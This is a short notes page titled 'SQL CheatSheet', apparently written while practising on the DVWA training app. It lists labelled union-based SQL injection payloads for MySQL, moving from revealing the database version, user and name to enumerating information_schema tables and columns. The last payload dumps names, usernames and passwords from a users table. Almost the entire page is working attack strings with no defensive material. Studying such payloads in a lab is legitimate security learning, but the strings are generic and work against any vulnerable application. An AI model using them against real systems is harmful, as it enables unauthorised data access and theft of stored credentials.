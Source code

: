 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version
%' or 0=0 union select null, version() #

Display Database User
%' or 0=0 union select null, user() #

Display Database Name
%' or 0=0 union select null, database() #

Display all tables in information_schema
%' and 1=0 union select null, table_name from information_schema.tables #

Display all the user tables in information_schema
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#

Display all the columns fields in the information_schema user table
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #

Display all the columns field contents in the information_schema user table
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
</p>